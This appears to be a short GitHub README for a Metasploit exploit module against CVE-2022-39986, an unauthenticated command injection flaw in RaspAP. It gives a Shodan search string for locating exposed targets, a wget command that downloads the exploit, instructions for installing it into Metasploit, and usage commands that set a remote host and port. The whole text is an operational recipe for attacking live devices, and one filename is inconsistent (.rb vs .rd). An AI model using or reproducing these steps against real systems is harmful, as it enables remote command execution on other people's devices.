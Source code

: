 # 2022-39986
RaspAP Unauthenticated Command Injection

- Shodan dork:
```
"RaspAP"
```

### Install
```
wget https://github.com/getdrive/PoC/2022/RaspAP_RCE/raspap_rce.rb
```
```
cp  raspap_rce.rd /usr/share/metasploit-framework/modules/exploit/unix/http/
```
### Usage
```
use exploit/unix/http/raspap_rce
```
```
set RHOST [IP]
set RPORT [PORT]
check